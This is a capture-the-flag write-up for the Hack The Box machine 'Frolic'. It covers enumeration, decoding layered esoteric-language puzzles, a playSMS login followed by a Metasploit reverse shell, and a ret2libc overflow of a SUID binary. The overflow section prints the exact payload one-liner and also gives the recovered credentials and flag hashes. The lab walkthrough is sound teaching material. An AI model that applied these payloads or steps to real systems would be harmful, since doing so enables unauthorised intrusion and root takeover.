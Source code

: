 # FROLIC
## Info

IP Address: 10.10.10.111  
OS: Linux  
Difficulty: Medium  

## System Enumeration

### NMAP
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicnmap.png "NMAP")

We see two different ports that we can access, `1880` and `9999`

### Port 1880: Node-RED service
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicRED.png "RED Service")

### Port 9999: nginx service
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicnginx.png "NGINX")

## Enumerating Port 9999 with Dirbuster

I used the dirb wordlists `big.txt`
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicdirbuster.png "Dirbuster")

Looking up all areas with response code 200, which we can access without restrictions

### /admin/

#### Source Code 

##### /login.js/

username: admin
password: superduperlooperpassword_lol

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.?
!.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? .....
..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?...
..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... .....
..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !....
..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!!
!!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?!
!.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.?
!!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!!
!!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!!
!!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?..
..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! .....
..!.! !!!!! !.?. 
```

A quick lookup shows that this is the Ook! language.
Using an online decoder, we achieve 
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
Opening up `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS` , we get:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB
BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs
K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3
h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj
lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC
AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA 
```

This looks like base64 encoding. Using `https://www.freeformatter.com/base64-encoder.html` and downloading the resulting zip, we see that its locked. Using fcrackzip to crack zip passwords, we get

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/froliczip.png "Locked Zip")
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicfcrack.png "FCrackZip")

Opening up `index.php`, we get
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b797367
4b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c53
30674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c543474
4c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046
302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```
which seems to be hex code, translating hex to ascii
```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```
which is easily identified as base64, decoding this
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```
A quick google search shows that this is brainfuck, decoding which gets us a string `idkwhatispass`

This string did not work as password on the `RED` service so I tried enumerating again with a different wordlist, which gave me a new directory

### /playsms/
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysms.png "PlaySMS")
Using the username `admin` and password `idkwhatispass`, we logged in

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysmslogin.png "LoggedIn Playsms")

Using metasploit, I was able to gain a reverse shell through playsms service

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicplaysmsexploit.png "Metasploit")
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicshell.png "Reverse Shell")

## User Exposed
![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicuser.png "User")

Finally got user
`user.txt = 2ab95909cf509f85a6f476b59a0c2fe0`

## Privilege Escalation

Following simple steps to check for escalation, I first check for SUID binaries in the system which can be exploited to escalate privileges:

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicsuid.png "SUID rop found")

Finding `rop` means we can exploit it using ret2lib attack and gain root. Downloaded the binary to my local machine(by using the `download <file>` command in meterpreter) to debug it using gdb-peda.

### Using gdb-peda
Step 1: Creating a pattern of 100 characters
      `pattern_create 100`
      `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL`
Step 2: Finding buffer limit using pattern offset.

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicpatternfound.png "Finding offset")

### Using libc-search

Step 1: Use `ldd rop` to find what library its using
Step 2: Add gcc library to $PATH, using `export PATH = /usr/lib/gcc/i686-linux-gnu/:/sbin:/bin:/usr/sbin:/usr/bin`
Step 3: Upload libc-search.c to server (https://0xdeadbeef.info/code/libc-search.c)
Step 4: `gcc libc-search.c -o libc-search -lc -ldl`
Step 5: Search for system, exit using -s 
Step 6: Search for /bin/sh using -p (set libbase using -b)

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/froliclibc.png "Libc Enumeration")

### Creating Payload
The addresses are converted to little endian.

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicadd.png "Address List")

Now, we simply create a python one-line payload to pass as our argument to the `rop` binary.
```
python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"'
```
### Root Obtained

Running
```
./rop $(python -c 'print "A"*52 + "\xa0\x3d\xe5\xb7" + "\xd0\x79\xe4\xb7"+"\x0b\x4a\xf7\xb7"')
```
We obtain root

![alt text](https://github.com/Gesundheit/HTB-Writeups/blob/master/boxImages/Frolic/frolicroot.png "Rooted")

`root.txt = 85d3fdf03f969892538ba9a731826222`
